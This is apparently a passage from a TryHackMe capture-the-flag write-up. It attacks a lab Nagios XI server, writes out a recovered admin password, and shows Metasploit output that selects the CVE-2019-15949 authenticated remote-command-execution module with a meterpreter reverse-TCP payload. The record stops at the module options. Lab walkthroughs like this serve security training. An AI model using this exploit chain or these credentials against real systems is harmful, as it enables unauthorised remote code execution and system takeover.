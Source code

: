 ```
Copyright                       : Piet Mondrian, tryhackme 2020
Image Size                      : 990x990
Megapixels                      : 0.980
```

[http://10.10.135.242/nagiosxi/login.php?redirect=/nagiosxi/index.php%3f&noauth=1](http://10.10.135.242/nagiosxi/login.php?redirect=/nagiosxi/index.php%3f&noauth=1)

`nagiosadmin%n3p3UQ&9BjLp4$7uhWdY`

![](./2020-10-11_09-45.png)

[Nagios XI - Authenticated Remote Command Execution (Metasploit)](https://www.exploit-db.com/exploits/48191)

```
msf5 > search CVE-2019-15949

Matching Modules
================

   #  Name                                            Disclosure Date  Rank       Check  Description
   -  ----                                            ---------------  ----       -----  -----------
   0  exploit/linux/http/nagios_xi_authenticated_rce  2019-07-29       excellent  Yes    Nagios XI Authenticated Remote Command Execution
```

```
msf5 > use 0
[*] Using configured payload linux/x64/meterpreter/reverse_tcp
msf5 exploit(linux/http/nagios_xi_authenticated_rce) > show options

Module options (exploit/linux/http/nagios_xi_authenticated_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD                    yes       Password to authenticate with
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      80               yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       Base path to NagiosXI
   URIPATH                     no        The URI to use for this exploit (default is random)
   USERNAME   nagiosadmin      yes       Username to authenticate with
   VHOST                       no        HTTP server virtual host


Payload options (linux/x64/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port
```
